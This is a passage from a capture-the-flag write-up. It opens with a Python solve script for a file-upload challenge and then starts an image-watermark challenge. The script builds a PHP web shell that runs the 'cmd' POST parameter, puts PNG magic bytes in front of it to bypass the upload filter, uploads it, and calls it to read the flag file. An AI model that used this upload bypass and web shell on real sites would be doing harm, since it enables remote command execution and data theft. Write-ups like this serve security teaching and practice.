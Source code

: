 Here's my solve script:

{% highlight python %}
import requests

url = "http://35.198.168.121:32319/"
shell_name= 'yaku.PhP'
png_magic = bytes.fromhex("5089 474e 0a0d 0a1a 0000 0d00 4849 5244".replace(" ", "")) #  hexdump ~/Pictures/htsp.png  | head -n 1
open("yaku.PhP", "wb").write(png_magic + b"<?php echo shell_exec($_POST['cmd']); ?>")

r = requests.post(url + "?start", files={"fileToUpload": (shell_name, open('yaku.PhP', 'rb'), 'image/png')}, data={"file": "Upload Image"})
#print(r.text)

r = requests.post(url + "uploads/" + shell_name.lower(), {"cmd": "cat ../flag.php"})
print(r.text)
{% endhighlight %}

**Flag:** ctf{aaf15cacfba615d51372386909c4771f0836284ad1a539bcef49201c660631ed}

## see {#see}
{% highlight bash %}
If you can see it, you might just retrieve it!

Flag format: CTF{sha256}
{% endhighlight %}

The given clearly contains the flag as a watermark, but it can't be read. To see it better, we could search the original image online and see the differences between the original and the given picture. [TinEye](https://tineye.com/) finds [this image](https://www.booking.com/hotel/it/residence-giglio-comer-see.ro.html) (note that this image has the same width and height as the given one). We can compare the two images using [this site](https://online-image-comparison.com/result):

<div>
